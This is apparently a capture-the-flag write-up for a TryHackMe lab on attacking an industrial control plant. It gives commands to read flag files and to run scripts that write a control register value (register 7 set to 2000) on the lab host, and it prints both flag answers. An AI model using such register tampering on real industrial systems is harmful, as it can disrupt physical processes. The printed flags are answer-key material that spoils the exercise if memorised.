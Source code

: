 ```yaml
---
description: https://tryhackme.com/room/attackingics2
---
```


# Attacking ICS Plant #2

## Task 2 Flag #1

#### Read flag1.txt

```bash
curl http://10.10.150.35/flag1.txt
```

![curl http://10.10.150.35/flag1.txt](<../../.gitbook/assets/Screenshot from 2022-02-20 10-26-31.png>)

{% hint style="success" %}
`0df2936b4cfbd5ce3ae91ef7021d925a`
{% endhint %}

## Task 3 Flag #2

#### Read flag2.txt

```bash
python3 discovery.py 10.10.150.35
python3 set_registry.py 10.10.150.35 7 2000
curl http://10.10.150.35/flag2.txt
```

![python3 discovery.py 10.10.150.35](<../../.gitbook/assets/Screenshot from 2022-02-20 10-42-55.png>)

![python3 set\_registry.py 10.10.150.35 7 2000](<../../.gitbook/assets/Screenshot from 2022-02-20 10-44-05.png>)

{% hint style="success" %}
`fdee450ac6627276d115dd905a256d49`
{% endhint %}
